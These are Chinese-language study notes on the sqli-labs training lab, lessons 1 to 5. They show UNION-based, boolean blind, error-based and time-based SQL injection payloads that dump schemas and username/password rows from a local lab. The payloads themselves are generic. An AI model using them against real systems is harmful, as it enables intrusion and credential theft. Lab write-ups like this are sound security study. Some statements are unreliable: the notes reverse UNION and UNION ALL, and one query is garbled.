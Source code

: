 ###
sqli-labs 学习笔记

##
lession-1  GET-Error based-single quotes String

我们可以在http://127.0.0.1/sqllib/Less-5/?id=1后面直接添加一个 '
我们可以看到提交到sql中的1'在经过sql语句构造后形成 '1'' LIMIT 0,1，多加了一个 ' 。这种方式就是从错误信息中得到我们所需要的信息，那我们接下来想如何将多余的 ' 去掉呢
尝试 'or 1=1--+
此时构造的sql语句就成了
Select ****** where id='1'or 1=1--+' LIMIT 0,1

最后从源代码中分析下为什么会造成注入？
Sql语句为sql="SELECT∗FROMusersWHEREid=′id' LIMIT 0,1";
Id参数在拼接sql语句时，未对id进行任何的过滤等操作，所以当提交 'or 1=1--+，直接构造的sql语句就是
SELECT * FROM users WHERE id='1'or 1=1--+ LIMIT 0,1
这条语句因or 1=1 所以为永恒真。

union联合注入，union的作用是将两个sql语句进行联合。Union可以从下面的例子中可以看出，强调一点：union前后的两个sql语句的选择列数要相同才可以。Union all与union 的区别是增加了去重的功能。我们这里根据上述background的知识，进行information_schema 知识的应用。
http://127.0.0.1/sqllib/Less-1/?id=-1'union select 1,2--+
当id的数据在数据库中不存在时，（此时我们可以id=-1，两个sql语句进行联合操作时，当前一个语句选择的内容为空，我们这里就将后面的语句的内容显示出来）此处前台页面返回了我们构造的union 的数据。

爆数据库
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(schema_name),3%20from%20information_schema.schemata--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(schema_name),3 from information_schema.schemata--+ LIMIT 0,1

爆security数据库的数据表
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(table_name),3%20from%20information_schema.tables%20where%20table_schema=%27security%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+ LIMIT 0,1

爆users表的列
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_name=%27users%27--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+ LIMIT 0,1

爆数据
http://127.0.0.1/sqllib/Less-1/?id=-1%27union%20select%201,username,password%20from%20users%20where%20id=2--+
此时的sql语句为SELECT * FROM users WHERE id='-1'union select 1,username,password from users where id=2--+ LIMIT 0,1

##
lession-2  GET-Error based-Intiger based

我们又得到了一个Mysql返回的错误，提示我们语法错误。
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '' LIMIT 0,1′ at line 1
现在执行的查询语句如下：
Select * from TABLE where id = 1' ;
所以这里的奇数个单引号破坏了查询，导致抛出错误。
因此我们得出的结果是，查询代码使用了整数。
Select * from TABLE where id = (some integer value);
现在，从开发者的视角来看，为了对这样的错误采取保护措施，我们可以注释掉剩余的查询：
http://localhost/sqli-labs/Less-2/?id=1–-+

源代码中可以分析到SQL语句为下：
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
对id没有经过处理

可以成功注入的有：
or 1=1
or 1=1 --+
其余的payload与less1中一直，只需要将less1中的 ' 去掉即可。

##
lession-3  GET-Error based-single quotes with twist

我们使用?id='注入代码后，我们得到像这样的一个错误：
MySQL server version for the right syntax to use near "") LIMIT 0,1′ at line 1

这里它意味着，开发者使用的查询是：
Select login_name, select password from table where id= ('our input here')
所以我们再用这样的代码来进行注入：
?id=1′) –-+

可以成功注入的有：
') or '1'=('1'
) or 1=1 --+
其余的payload与less1中一直，只需要将less1中的 ' 添加） 即')

##
lession-4  GET-Error based-double quotes

我们使用?id=1"
注入代码后，我们得到像这样的一个错误：
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
这里它意味着，代码当中对id参数进行了 "" 和 () 的包装。

所以我们再用这样的代码来进行注入：
?id=1") –-+

其余的payload与less1中一直，只需要将less1中的 ' 更换为 ") 。

##
lession 5 double injection 盲注

1.利用left(database(),1)进行尝试

http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(version(),1)=5%23
查看一下version()，数据库的版本号为5.6.17，这里的语句的意思是看版本号的第一位是不是5，明显的返回的结果是正确的。

接下来看一下数据库的长度
http://127.0.0.1/sqllib/Less-5/?id=1%27and%20length(database())=8%23
长度为8时，返回正确结果，说明长度为8.

猜测数据库第一位
http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(database(),1)%3E%27a%27--+
Database()为security，所以我们看他的第一位是否 > a,很明显的是s > a,因此返回正确。当我们不知情的情况下，可以用二分法来提高注入的效率。

猜测数据库第二位
得知第一位为s，我们看前两位是否大于 sa
http://127.0.0.1/sqllib/Less-5/?id=1%27and%20left(database(),2)%3E%27sa%27--+

2.利用substr() ascii()函数进行尝试
ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101

根据以上得知数据库名为security，那我们利用此方式获取security数据库下的表。
获取security数据库的第一个表的第一个字符
http://127.0.0.1/sqllib/Less-5/?id=1%27and%20ascii(substr((select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),1,1))%3E80--+
Ps：此处table_schema可以写成 ='security'，但是我们这里使用的database()，是因为此处database()就是security。此处同样的使用二分法进行测试，直到测试正确为止。
此处应该是101，因为第一个表示email。

如何获取第一个表的第二位字符呢？
这里我们已经了解了substr()函数，这里使用substr(**,2,1)即可。

那如何获取第二个表呢?
这里可以看到我们上述的语句中使用的limit 0,1. 意思就是从第0个开始，获取第一个。那要获取第二个是不是就是limit 1,1！

此处113返回是正确的，因为第二个表示referers表，所以第一位就是r.
以后的过程就是不断的重复上面的，这里就不重复造轮子了。原理已经解释清楚了。
当你按照方法运行结束后，就可以获取到所有的表的名字。

3.利用regexp获取（2）中users表中的列
http://127.0.0.1/sqllib/Less-5/?id=1%27%20and%201=(select%201%20from%20information_schema.columns%20where%20table_name=%27users%27%20and%20table_name%20regexp%20%27^us[a-z]%27%20limit%200,1)--+

上述语句时选择users表中的列名是否有us**的列
http://127.0.0.1/sqllib/Less-5/?id=1' and 1=(select 1 from information_schema.columns where table_name='users' and column_name regexp '^username' limit 0,1)--+
上图中可以看到username存在。我们可以将username换成password等其他的项也是正确的。

4.利用ord（）和mid（）函数获取users表的内容
http://127.0.0.1/sqllib/Less-5/?id=1%27%20and%20ORD(MID((SELECT%20IFNULL(CAST(username%20AS%20CHAR),0x20)FROM%20security.users%20ORDER%20BY%20id%20LIMIT%200,1),1,1))=68--+
获取users表中的内容。获取username中的第一行的第一个字符的ascii，与68进行比较，即为D。而我们从表中得知第一行的数据为Dumb。所以接下来只需要重复造轮子即可。

总结：以上（1）（2）（3）（4）我们通过使用不同的语句，将通过布尔盲注SQL的所有的payload进行演示了一次。想必通过实例更能够对sql布尔盲注语句熟悉和理解了。

接下来，我们演示一下报错注入和延时注入。

5.首先使用报错注入
http://127.0.0.1/sqllib/Less-5/?id=1' union Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a--+

利用double数值类型超出范围进行报错注入
http://127.0.0.1/sqllib/Less-5/?id=1' union select (exp(~(select * FROM(SELECT USER())a))),2,3--+

利用bigint溢出进行报错注入
http://127.0.0.1/sqllib/Less-5/?id=1' union select (!(select * from (select user())x) - ~0),2,3--+

xpath函数报错注入
http://127.0.0.1/sqllib/Less-5/?id=1' and extractvalue(1,concat(0x7e,(select @@version),0x7e))--+
http://127.0.0.1/sqllib/Less-5/?id=1' and updatexml(1,concat(0x7e,(select @@version),0x7e),1)--+

利用数据的重复性
http://127.0.0.1/sqllib/Less-5/?id=1'union select 1,2,3 from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x --+

6.延时注入
利用sleep()函数进行注入
http://127.0.0.1/sqllib/Less-5/?id=1'and If(ascii(substr(database(),1,1))=115,1,sleep(5))--+
当错误的时候会有5秒的时间延时。

利用BENCHMARK()进行延时注入
http://127.0.0.1/sqllib/Less-5/?id=1'UNION SELECT (IF(SUBSTRING(current,1,1)=CHAR(115),BENCHMARK(50000000,ENCODE('MSG','by 5 seconds')),null)),2,3 FROM (select database() as current) as tb1--+
当结果正确的时候，运行ENCODE('MSG','by 5 seconds')操作50000000次，会占用一段时间。

至此，我们已经将上述讲到的盲注的利用方法全部在less5中演示了一次。在后续的关卡中，将会挑一种进行演示，其他的盲注方法请参考less5.

